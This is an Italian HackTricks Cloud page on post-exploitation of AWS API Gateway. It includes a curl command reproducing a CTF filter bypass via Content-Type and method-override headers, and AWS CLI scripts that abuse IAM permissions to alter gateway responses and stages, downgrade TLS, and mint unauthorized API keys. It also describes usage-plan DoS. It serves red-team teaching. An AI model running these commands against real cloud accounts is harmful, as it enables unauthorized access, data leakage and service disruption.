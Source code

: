 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accesso a API non esposte

Puoi creare un endpoint in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con il servizio `com.amazonaws.us-east-1.execute-api`, esporre l'endpoint in una rete a cui hai accesso (potenzialmente tramite una macchina EC2) e assegnare un gruppo di sicurezza che consenta tutte le connessioni.\
Poi, dalla macchina EC2 sarai in grado di accedere all'endpoint e quindi chiamare l'API del gateway che non era stata esposta prima.

### Bypass del passaggio del corpo della richiesta

Questa tecnica è stata trovata in [**questo writeup CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Come indicato nella [**documentazione AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) nella sezione `PassthroughBehavior`, per impostazione predefinita, il valore **`WHEN_NO_MATCH`**, quando controlla l'intestazione **Content-Type** della richiesta, passerà la richiesta al back end senza trasformazione.

Pertanto, nel CTF, l'API Gateway aveva un modello di integrazione che **impediva l'exfiltrazione della flag** in una risposta quando veniva inviata una richiesta con `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Tuttavia, inviare una richiesta con **`Content-type: text/json`** impedirebbe quel filtro.

Infine, poiché l'API Gateway consentiva solo `Get` e `Options`, era possibile inviare una query dynamoDB arbitraria senza alcun limite inviando una richiesta POST con la query nel corpo e utilizzando l'intestazione `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Piani di Utilizzo DoS

Nella sezione **Enumerazione** puoi vedere come **ottenere il piano di utilizzo** delle chiavi. Se hai la chiave e è **limitata** a X utilizzi **al mese**, potresti **semplicemente usarla e causare un DoS**.

La **API Key** deve essere **inclusa** all'interno di un **header HTTP** chiamato **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` può **modificare una risposta di gateway esistente per includere intestazioni personalizzate o modelli di risposta che leak informazioni sensibili o eseguire script dannosi**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Fuoriuscita di informazioni sensibili, esecuzione di script malevoli o accesso non autorizzato alle risorse API.

{% hint style="info" %}
Necessita di test
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateStage` e `apigateway:CreateDeployment` può **modificare una fase esistente di API Gateway per reindirizzare il traffico a un'altra fase o cambiare le impostazioni di caching per ottenere accesso non autorizzato ai dati memorizzati nella cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Accesso non autorizzato ai dati memorizzati nella cache, interruzione o intercettazione del traffico API.

{% hint style="info" %}
Necessita di test
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` può **modificare la risposta del metodo di un metodo API Gateway REST API esistente per includere intestazioni personalizzate o modelli di risposta che leak informazioni sensibili o eseguire script dannosi**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impatto Potenziale**: Fuoriuscita di informazioni sensibili, esecuzione di script malevoli o accesso non autorizzato alle risorse API.

{% hint style="info" %}
Necessita di test
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` può **modificare le impostazioni dell'API Gateway REST API per disabilitare il logging o cambiare la versione minima di TLS, potenzialmente indebolendo la sicurezza dell'API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impatto Potenziale**: Indebolimento della sicurezza dell'API, potenzialmente consentendo accessi non autorizzati o esponendo informazioni sensibili.

{% hint style="info" %}
Necessita di test
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaccante con permessi `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` e `apigateway:CreateUsagePlanKey` può **creare nuove chiavi API, associarle a piani di utilizzo e poi utilizzare queste chiavi per accessi non autorizzati alle API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impatto Potenziale**: Accesso non autorizzato alle risorse API, eludendo i controlli di sicurezza.

{% hint style="info" %}
Necessita di test
{% endhint %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
